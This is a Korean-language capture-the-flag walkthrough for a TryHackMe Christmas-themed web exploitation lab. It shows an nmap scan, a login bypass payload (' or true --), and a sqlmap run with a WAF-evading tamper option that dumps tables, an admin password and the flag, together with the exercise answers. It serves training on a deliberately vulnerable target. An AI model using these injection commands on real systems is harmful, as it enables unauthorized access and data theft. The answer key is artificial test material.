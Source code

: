 # Day 5 | Web Exploitation Someone stole Santa's gift list! 

## Workstation
- Virtual Box : VMware Fusion 12.1.2
- OS : kali-linux-2021.1

## Walkthrough
Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6.

Santa reads some documentation that he wrote when setting up the application, it reads:

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2commen`

***

![attackbox](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/attackbox.png)

Without using directory brute forcing, what's Santa's secret login panel?

> /santapanel

힌트를 확인하면 알 수 있다.

<img src="https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/hint.png" width="800px" height="200px" title="hint" alt="hint"></img><br/>

Visit Santa's secret login panel and bypass the login using SQLi

nmap 으로 포트를 조사한다.

```
$ sudo nmap -sC -sV 10.10.70.181                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 04:26 EDT
Nmap scan report for 10.10.70.181
Host is up (0.28s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 35:30:91:45:b9:d1:ed:5a:13:42:3e:20:95:6d:c7:b7 (RSA)
|   256 f5:69:6a:7b:c8:ac:89:b5:38:93:50:2f:05:24:22:70 (ECDSA)
|_  256 8f:4d:37:ba:40:12:05:fa:f0:e6:d6:82:fb:65:52:e8 (ED25519)
3000/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.12)
|_http-title: Really Insecure PHP Page
3306/tcp open  mysql   MySQL 8.0.22
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.22
|   Thread ID: 298
|   Capabilities flags: 65535
|   Some Capabilities: SupportsCompression, Support41Auth, Speaks41ProtocolOld, IgnoreSigpipes, SupportsTransactions, FoundRows, LongColumnFlag, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsLoadDataLocal, LongPassword, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: >\x0D6r[5[\x0DpF'5]0)\x0B\x14\x10@*
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.22_Auto_Generated_Server_Certificate
| Not valid before: 2020-11-19T19:12:24
|_Not valid after:  2030-11-17T19:12:24
|_ssl-date: TLS randomness does not represent time
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Santa's forum
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.51 seconds
```

8000번 포트에 http 서버가 열려있다.

![ip](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/ip.png)

비밀 로그인 패널이 있는 주소로 이동한다.

![santapanel](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/santapanel.png)

username 부분에 `' or true --`를 입력 후 login을 시도하면 다음과 같이 SQL Injection에 성공했다.

![username](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/username.png)

paul로 검색을 해보면 아무것도 나오지 않는다.

![paul](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/paul.png)

해당 사이트를 sqlmap을 사용하기 위해 burpsuite를 사용한다.

```
$ burpsuite
```

버프스위트를 사용하기 위해 프록시 설정을 해준다.

![proxy](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/proxy.png)

프록시 설정 후 해당 페이지를 새로고침하면 버프스위트 proxy 부분에 인터셉트 된다.

![intercept](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/intercept.png)

이 부분을 저장한다. 마우스 우클릭 하면 Save Item 버튼을 클릭하면 된다.

![save](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%205/image/save.png)

해당 페이지를 저장했다면 터미널에서 sqlmap을 사용한다.

```
$ sudo sqlmap -r ~/THM/sqlmap --dump-all --tamper space2comment --dbms sqlite 
        ___
       __H__                                                                                                               
 ___ ___[.]_____ ___ ___  {1.5.8#stable}                                                                                   
|_ -| . [,]     | .'| . |                                                                                                  
|___|_  [(]_|_|_|__,|  _|                                                                                                  
      |_|V...       |_|   http://sqlmap.org                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:42:19 /2021-08-25/

[04:42:19] [INFO] parsing HTTP request from '/home/jasper/THM/sqlmap'
[04:42:19] [INFO] loading tamper module 'space2comment'
[04:42:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: search=jasper' UNION ALL SELECT CHAR(113,106,113,112,113)||CHAR(121,112,112,116,115,108,99,82,89,122,107,102,104,107,121,110,77,105,87,70,104,118,90,97,100,78,74,87,88,84,113,74,79,109,82,88,79,76,101,115)||CHAR(113,122,112,112,113),NULL-- QKAu
---
[04:42:20] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[04:42:20] [INFO] testing SQLite
[04:42:21] [INFO] confirming SQLite
[04:42:21] [INFO] actively fingerprinting SQLite
[04:42:21] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[04:42:21] [INFO] sqlmap will dump entries of all tables from all databases now
[04:42:21] [INFO] fetching tables for database: 'SQLite_masterdb'
[04:42:21] [INFO] fetching columns for table 'sequels' 
[04:42:21] [INFO] fetching entries for table 'sequels'
Database: <current>
Table: sequels
[22 entries]
+-------------+-----+----------------------------+
| kid         | age | title                      |
+-------------+-----+----------------------------+
| James       | 8   | shoes                      |
| John        | 4   | skateboard                 |
| Robert      | 17  | iphone                     |
| Michael     | 5   | playstation                |
| William     | 6   | xbox                       |
| David       | 6   | candy                      |
| Richard     | 9   | books                      |
| Joseph      | 7   | socks                      |
| Thomas      | 10  | 10 McDonalds meals         |
| Charles     | 3   | toy car                    |
| Christopher | 8   | air hockey table           |
| Daniel      | 12  | lego star wars             |
| Matthew     | 15  | bike                       |
| Anthony     | 3   | table tennis               |
| Donald      | 4   | fazer chocolate            |
| Mark        | 17  | wii                        |
| Paul        | 9   | github ownership           |
| James       | 8   | finnish-english dictionary |
| Steven      | 11  | laptop                     |
| Andrew      | 16  | rasberry pie               |
| Kenneth     | 19  | TryHackMe Sub              |
| Joshua      | 12  | chair                      |
+-------------+-----+----------------------------+

[04:42:21] [INFO] table 'SQLite_masterdb.sequels' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.70.181/dump/SQLite_masterdb/sequels.csv'                                                                                                 
[04:42:21] [INFO] fetching columns for table 'users' 
[04:42:21] [INFO] fetching entries for table 'users'
Database: <current>
Table: users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| EhCNSWzzFP6sc7gB | admin    |
+------------------+----------+

[04:42:21] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.70.181/dump/SQLite_masterdb/users.csv'                                                                                                     
[04:42:21] [INFO] fetching columns for table 'hidden_table' 
[04:42:21] [INFO] fetching entries for table 'hidden_table'
Database: <current>
Table: hidden_table
[1 entry]
+-----------------------------------------+
| flag                                    |
+-----------------------------------------+
| thmfox{All_I_Want_for_Christmas_Is_You} |
+-----------------------------------------+

[04:42:21] [INFO] table 'SQLite_masterdb.hidden_table' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.70.181/dump/SQLite_masterdb/hidden_table.csv'                                                                                       
[04:42:21] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.70.181'

[*] ending @ 04:42:21 /2021-08-25/
```

나온 결과로 다음 문제를 풀어나가면 된다.

How many entries are there in the gift database?

> 22

What did Paul ask for?

> github ownership

What is the flag?

> thmfox{All_I_Want_for_Christmas_Is_You}

What is admin's password?

> EhCNSWzzFP6sc7gB
